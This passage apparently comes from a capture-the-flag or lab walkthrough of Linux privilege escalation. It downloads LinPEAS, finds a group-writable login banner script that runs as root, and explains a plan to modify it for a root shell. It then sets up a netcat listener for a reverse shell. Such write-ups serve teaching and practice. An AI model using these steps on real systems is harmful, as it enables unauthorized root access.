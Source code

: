 *Alternative download method if curl doesn't work:*
```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

**Key Finding from LinPEAS:**
```bash
Interesting GROUP writable files (not in Home) (max 200)
  Group users:
/opt/cube/cube.sh
```

This is interesting! Let's investigate this file.

### Step 10: Analyzing the Writable Script

```bash
ls -la /opt/cube/cube.sh
```

**Output:**
```bash
-rw-rwxr-- 1 parede users 851 Mar 11  2018 /opt/cube/cube.sh
```

**Understanding File Permissions:**
- `rw-` (owner: parede) - Read and write permissions
- `rwx` (group: users) - Read, write, and execute permissions  
- `r--` (others) - Read only

**Why is this important?** 
1. We are part of the `users` group
2. The `users` group has write access to this script
3. This script likely runs with elevated privileges

Let's see what this script does:
```bash
cat /opt/cube/cube.sh
```

This script appears to generate the banner we saw when logging in via SSH. If it runs as root during login, we can modify it to give us a root shell!

### Step 11: Creating a Reverse Shell

**What is a Reverse Shell?** A reverse shell is when the target machine connects back to our attacking machine, giving us a command prompt. This is useful because:
1. It bypasses firewall restrictions
2. We can catch it with a simple listener
3. If the script runs as root, we get a root shell

First, let's set up a listener on our attacking machine (in a new terminal):

```bash
nc -lvnp 4444
```

**Command breakdown:**
- `nc` - Netcat
- `-l` - Listen mode
- `-v` - Verbose output
- `-n` - Don't resolve hostnames
- `-p 4444` - Listen on port 4444
